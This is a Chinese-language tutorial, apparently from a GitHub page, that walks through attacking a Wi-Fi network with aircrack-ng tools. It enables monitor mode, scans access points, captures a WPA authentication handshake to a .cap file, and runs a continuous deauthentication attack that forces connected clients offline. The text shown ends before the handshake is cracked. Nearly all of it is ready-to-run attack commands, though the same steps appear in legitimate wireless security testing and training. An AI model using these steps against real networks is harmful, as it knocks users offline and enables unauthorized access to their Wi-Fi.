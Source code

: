 查看扩展网卡

```
sudo airmon-ng
```

开启网卡监听模式

```
sudo airmon-ng start <网卡名称>
```

确实是否已经开启监听模式

```
iwconfig
```

![image-20220922121342735](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20220922121342735.png)

> 开启监听模式后无线网卡无法继续连接 wifi，如需使用WIFI, 在使用后需要关闭监听模式即可.

扫描附近的无线网络信号

```
sudo airodump-ng <网卡名称>
```

![image-20220922121729163](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20220922121729163.png)

对上述命令显示的部分字段进行说明:

```
BSSID:AP的mac地址
PWR: 无线网络的信号,强信号约为-40。平均一个约为-55，一个弱的开始在-70左右。Wi-Fi适配器下限（又称接收灵敏度）通常约为-80/-90。
#Data: 捕获的数据包
ENC: 加密方式
MB: AP支持的最大传输速率
CH: 传输信道
ESSID: 无线网络名称
https://www.aircrack-ng.org/doku.php?id=airodump-ng
```

抓取WiFi认证握手包(关键步骤)

```shell
sudo airodump-ng -c channel -w write_path --bssid ap_mac <网卡名称>
```

当出现 `WPA handshake `字样时,表示已经成功抓取到认证握手包.

![image-20220922135445384](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20220922135445384.png)

握手包会以 `.cap` 后缀结尾,保存在你所指定的目录,如下:

![image-20220922135958559](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20220922135958559.png)

为了快速获取握手包,我们可以使用 `aireplay-ng` 工具向 station 发送 `Deauthentication` 数据包,将在线用户进行强制下线处理:

```
sudo aireplay-ng -0 0 -a ap_mac -c station_mac <网卡名称>
参数说明:
-0 表示使用 Deauthentication 取消认证攻击,后面跟的 0 表示把发送数据包的数量, 0 表示不断发送
-a 表示 ap 的mac 地址,我们就输入前面 airdump-ng --bssid 指定的 ap地址
-c 表示要攻击取消认证的station, 在左边可以看到又两个 station, 这里我们选择测试机 AC:... 作为受害者,进行 deauthentication 攻击

详细描述:https://www.aircrack-ng.org/doku.php?id=aireplay-ng
```
